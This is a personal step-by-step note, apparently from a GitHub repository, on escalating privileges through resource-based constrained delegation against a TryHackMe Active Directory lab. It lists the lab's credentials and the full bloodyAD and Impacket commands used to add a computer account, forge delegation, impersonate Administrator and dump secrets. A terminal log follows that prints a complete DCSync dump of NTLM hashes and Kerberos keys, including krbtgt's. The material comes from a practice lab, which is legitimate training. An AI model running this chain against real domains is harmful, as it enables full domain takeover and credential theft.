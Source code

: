 
# RBCD PrivEsc Step-by-Step (with your environment)

---

Example data: (https://tryhackme.com/room/attacktivedirectory - Free room
- Domain: `spookysec.local`
- DC FQDN: `AttacktiveDirectory.spookysec.local`
- Computer account: `ATTACKTIVEDIREC$` ((sAMAccountName truncated to 15 chars + $))
- DC NetBIOS name: `ATTACKTIVEDIREC`
- User with rights: `backup`
- User password: `backup2517860`
- DC IP: `10.10.55.131`

##### 1. Create new computer account (`FAKECOMP$`)

`bloodyAD --host 10.10.55.131 -d spookysec.local -u backup -p 'backup2517860' add computer FAKECOMP Passw0rd123!`

##### 2. Grant RBCD permission on DC to FAKECOMP$

`bloodyAD --host 10.10.55.131 -d spookysec.local -u backup -p 'backup2517860' add rbcd ATTACKTIVEDIREC$ FAKECOMP$`

##### 3. Get NT hash (RC4) of FAKECOMP$ password

Convert password Passw0rd123! to NT hash

`printf 'Passw0rd123!' | iconv -f utf8 -t utf16le | openssl dgst -md4`
or
`python3 -c 'import hashlib; print(hashlib.new("md4", "Passw0rd123!".encode("utf-16le")).hexdigest())'`

##### 4. Request TGT for FAKECOMP$

`impacket-getTGT spookysec.local/FAKECOMP\$ -hashes :ab4f5a5c42df5a0ee337d12ce77332f5 -dc-ip 10.10.55.131`

Saves `FAKECOMP$.ccache` ticket file.

##### 5. Use S4U to impersonate Administrator on DC TODO! double check

`export KRB5CCNAME=FAKECOMP\$.ccache`

`impacket-getST spookysec.local/FAKECOMP\$ -impersonate Administrator -spn cifs/AttacktiveDirectory.spookysec.local -dc-ip 10.10.55.131`

Saves `Administrator@cifs_AttacktiveDirectory.spookysec.local@SPOOKYSEC.LOCAL.ccache` ticket file.

##### 6. Dump secrets from DC using impersonation ticket

`export KRB5CCNAME=Administrator@cifs_AttacktiveDirectory.spookysec.local@SPOOKYSEC.LOCAL.ccache`

`impacket-secretsdump -k -no-pass spookysec.local/FAKECOMP\$@AttacktiveDirectory.spookysec.local`

wordlist:
msDS-AllowedToActOnBehalfOfOtherIdentity: AD attribute allowing RBCD delegation.
S4U2Self and S4U2Proxy: Kerberos delegation protocols used in RBCD.
TGT: Ticket Granting Ticket (initial Kerberos ticket).
ST: Service Ticket (ticket for a specific service).
impacket-getTGT, impacket-getST, impacket-secretsdump: Impacket tools for Kerberos and AD interaction.


##### log from testrun - will this ever work

```sh
┌──(fixit42㉿kali)-[~]
└─$ bloodyAD --host 10.10.55.131 -d spookysec.local -u backup -p 'backup2517860' add computer FAKECOMP Passw0rd123!
[+] FAKECOMP created
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ bloodyAD --host 10.10.55.131 -d spookysec.local -u backup -p 'backup2517860' add rbcd ATTACKTIVEDIREC$ FAKECOMP$
[+] FAKECOMP$ can now impersonate users on ATTACKTIVEDIREC$ via S4U2Proxy
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ impacket-getTGT spookysec.local/FAKECOMP\$ -hashes :ab4f5a5c42df5a0ee337d12ce77332f5 -dc-ip 10.10.55.131
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in FAKECOMP$.ccache
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ export KRB5CCNAME=FAKECOMP\$.ccache
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ impacket-getST spookysec.local/FAKECOMP\$ -impersonate Administrator -spn cifs/AttacktiveDirectory.spookysec.local -dc-ip 10.10.55.131
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_AttacktiveDirectory.spookysec.local@SPOOKYSEC.LOCAL.ccache
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ export KRB5CCNAME=Administrator@cifs_AttacktiveDirectory.spookysec.local@SPOOKYSEC.LOCAL.ccache
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ impacket-secretsdump -k -no-pass spookysec.local/FAKECOMP\$@AttacktiveDirectory.spookysec.local
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Cleaning up... 
                                                                                                                             
┌──(fixit42㉿kali)-[~]
└─$ impacket-secretsdump -k -no-pass spookysec.local/FAKECOMP\$@AttacktiveDirectory.spookysec.local -just-dc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Cleaning up... 
                                                                                                                             
```


Just checking the normal dcsync still works, yup
```sh
┌──(fixit42㉿kali)-[~]
└─$ impacket-secretsdump spookysec.local/backup:backup2517860@10.10.55.131 -just-dc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
newuser:2101:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:efb23cfc8ac76ca230d388cb3285348d:::
FAKECOMP$:2102:aad3b435b51404eeaad3b435b51404ee:ab4f5a5c42df5a0ee337d12ce77332f5:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
newuser:aes256-cts-hmac-sha1-96:c7f5610ff1055cbf560702a428daefa6186bdf809dc3702c4663bc078fb998e7
newuser:aes128-cts-hmac-sha1-96:1976aab6ee8305fadcdbc0163ff43f1d
newuser:des-cbc-md5:eae0732c9476674c
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:c4da28cc4d7b863a0b9838651dfb1c3dd48948cd942b534c14d45270dcbee045
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:dff7d4d12a7a739e869b453e73393957
ATTACKTIVEDIREC$:des-cbc-md5:e50475f26ef470b9
FAKECOMP$:aes256-cts-hmac-sha1-96:633dd0ddeb0b82fcbcfbad681a2e54bb2faacb49bd1118392f73be94fb375951
FAKECOMP$:aes128-cts-hmac-sha1-96:d6360c896a4b7943c18f4c869c6e896d
FAKECOMP$:des-cbc-md5:587f2ff15743b65b
[*] Cleaning up... 

```

